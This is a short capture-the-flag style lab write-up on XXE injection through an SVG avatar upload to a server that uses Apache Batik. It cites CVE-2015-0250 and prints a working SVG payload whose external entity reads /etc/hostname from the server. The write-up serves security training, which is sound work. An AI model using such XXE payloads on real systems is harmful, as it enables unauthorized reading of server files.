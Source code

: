 <div align='center'>

# **XXE Injection**

</div>

## **Lab:** Exploiting XXE via image file upload

**Goal:** Displays the contents of the /etc/hostname

**The lab provide:** The server uses Apache Batik library to process avatar image files.

1.  In the comment section, the website has the feature of uploading image file. We upload this [sample.svg](./Payload/sample.svg), the server accepts it. The server allow us to upload a .svg file which lead to potential XXE attack

![](./img/1.png)

2.  Since the server uses Apache Batik library, We find this vulnerbility [CVE-2015-0250](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/) relating to XXE. We apply this payload for our case

```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]> 
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
Upload this file as [exploit.svg](./Payload/exploit.svg)